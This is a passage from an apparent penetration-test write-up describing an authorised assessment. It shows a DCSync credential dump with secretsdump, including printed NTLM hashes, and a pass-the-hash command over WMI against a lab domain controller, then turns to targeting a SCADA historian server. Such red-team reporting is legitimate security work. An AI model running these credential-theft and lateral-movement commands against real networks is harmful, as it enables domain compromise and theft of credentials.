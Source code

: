 ```bash
    [*] Requesting S4U2Proxy
    [*] Saving ticket in Administrator@cifs_rodc.lab.local@LAB.LOCAL.ccache

$ secretsdump.py -dc-ip 192.168.99.20 -k -no-pass 'lab.local/Administrator@rodc.lab.local'
    [*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
    [*] Using the DRSUAPI method to get NTDS.DIT secrets
    Administrator:500:aad3b435b51404eeaad3b435b51404ee:71e236826b080ec3c22d7d4c31edc54e:::
    Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ab931b73c59d7e0c089c0:::
    krbtgt:502:aad3b435b51404eeaad3b435b51404ee:9fd3a549dffd8c0715d90b9814febb28:::
```

Now you may be surprised (as we were at the time) why DCSync worked on a Read-Only DC. In fact, `RODC` despite the name was not actually Read-Only. Instead, it was a regular DC and belonged to the `Domain Controllers` group. By default, a regular RODC do not cache user credentials. 

We decided to move straight into DC using Pass-the-Hash via Windows Management Instrumentation (`WMI`), placed another reverse SOCKS5 connection there and chained it. Now we could reach a lot of AD-joined computers, including  servers, desktops and even some personnel notebooks from multiple departments.

The Active Directory exploitation part is not the focus in this article, so we'll reference SpecterOps documentation [[1]](#references) that explains how this `WriteAccountRestrictions` DACL can be abused, and also a blog post from Dirk-jan [[2]](#references) covering in-depth these permissions.


```bash
nxc wmi dc.lab.local -d lab.local -u Administrator -H 71e236826b080ec3c22d7d4c31edc54e -x 'cmd'
```





# Part 0x02 - Pivoting to Restricted Network and Reversing SCADA Security

## Discovery of Valuable Assets

At this point we already had company AD domain compromised: gained domain administrator privileges, could forge Golden Tickets and gain remote access to *almost* any AD-joined server and workstation. But was that enough to demonstrate impact in our final report? Probably for cybersecurity teams, SOC, IT administrators and other technical people it would suffice.

Considering how quickly we compromised the domain (in part thanks to quality tools we used and awesome research existing out there), we still had plenty of time to continue our engagement *as far as we could*. In coordination with our customer, we decided to continue our assessment and see what would be possible to do from a domain admin standpoint.

Spending more time analyzing domain structure, types of users, groups, organizational units and computers, we compiled a shortlist of interesting targets to attack. One that caught our attention was a computer named similar to `HISTORIAN.lab.local`.

After researching this subject we found that it is common in organizations working with industrial and operational technology to have an application used for data collection & repository.
